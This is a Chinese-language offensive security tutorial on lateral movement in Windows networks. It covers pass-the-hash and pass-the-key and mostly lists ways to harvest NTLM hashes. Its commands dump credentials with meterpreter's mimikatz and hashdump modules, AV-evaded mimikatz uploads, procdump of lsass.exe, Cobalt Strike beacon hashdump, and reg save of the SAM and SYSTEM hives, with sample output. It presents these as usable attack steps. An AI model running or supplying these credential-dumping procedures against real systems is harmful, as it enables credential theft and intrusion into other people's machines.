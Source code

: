 横向移动

1.PTH

如果找到了某个用户的ntlm hash，就可以拿这个ntlm hash当作凭证进行远程登陆了
其中若hash加密方式是 rc4 ，那么就是pass the hash
若加密方式是aes key,那么就是pass the key
注意NTLM和kerberos协议均存在PTH:
NTLM自然不用多说
kerberos协议也是基于用户的client hash开始一步步认证的，自然也会受PTH影响
那前提就是要获取hash值了

1.1 HASH获取
1.使用meterpreter里的mimikatz模块
Default
meterpreter>load mimikatz
meterpreter>mimikatz_command -f mimikatz的指令
privilege::debug 提权  samdump::hashes dump哈希  
或者
meterpreter>msv/kerberos/widgst

2.使用meterpreter自带的hash获取模块
Default
meterpreter>hashdump
meterpreter>run windows/gather/smart_hashdump   (推荐使用这个)

3.向目标机上传mimikatz远程调用mimikatz.exe dump出hash，mimikatz需要免杀处理
意思就是既然我们获取到了shell，我们直接向目标机上传一个mimikatz然后在shell里使用它就行了. 使用方法为cmd窗口打开mimikatz.exe，进入mimikatz终端，然后输入mimikatz指令即可

4.上传procdump到目标机，获取到lsass.dmp文件后将其传回本地又mimikatz来dump哈希

procdump.exe是微软自带的程序，所以不会触发杀毒。所以可以通过它传回lsass.dmp本地提取hash
Default
procdump64.exe -accepteula -ma lsass.exe lsass.dmp  执行该指令，获取到lsass.dmp
然后将其传回本地
通过mimikatz.exe分别执行以下命令
"sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full"
Default
Procdump：https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump
mimikatz：https://github.com/gentilkiwi/mimikatz/releases

5.使用cobalt strike 获取hash
Default
beacon>hashdump
beacon>mimikatz mimikatz指令

6.利用sam表
mimikatz在线读sam表中的hash
Default
privilege::debug
token::elevate
lsadump::sam

将sam表下载到本地由mimikatz分析
Default
eg save HKLM\SYSTEM SYSTEM
reg save HKLM\SAM SAM
在远端shell使用以上命令导出SYSTEM 和 SAM文件，并将其待会本地，由mimikatz分析
mimikatz运行
mimikatz # lsadump::sam /sam:SAM /system:SYSTEM
Domain : STU1
SysKey : fd4639f4e27c79683ae9fee56b44393f
Local SID : S-1-5-21-1982601180-2087634876-2293013296
 